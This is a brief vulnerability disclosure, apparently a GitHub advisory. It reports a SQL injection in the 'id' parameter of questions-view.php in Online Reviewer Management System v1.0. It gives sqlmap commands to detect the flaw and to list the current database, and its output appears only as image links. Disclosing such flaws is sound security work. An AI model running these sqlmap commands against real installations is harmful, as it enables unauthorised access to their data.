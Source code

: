 # Online Reviewer Management System v1.0 by janobe has SQL injection

BUG_Author: believeti

Website source address:https://www.sourcecodester.com/php/14759/online-reviewer-management-system-phppdo-full-source-code.html

Vulnerability File: /reviewer_0/admins/assessments/pretest/questions-view.php

Parameter "id" (GET), exists SQL injection vulnerability

sqlmap detect injection vulnerabilities: "sqlmap -u http://ip/reviewer_0/admins/assessments/pretest/questions-view.php?id=1"

sqlmap injection result

![image](https://github.com/believeti/pic/blob/main/sqlOne.png)

sqlmap Queries the current database: "sqlmap -u http://ip/reviewer_0/admins/assessments/pretest/questions-view.php?id=1 --current-db"

sqlmap injection result

![image](https://github.com/believeti/pic/blob/main/sqlTwo.png)
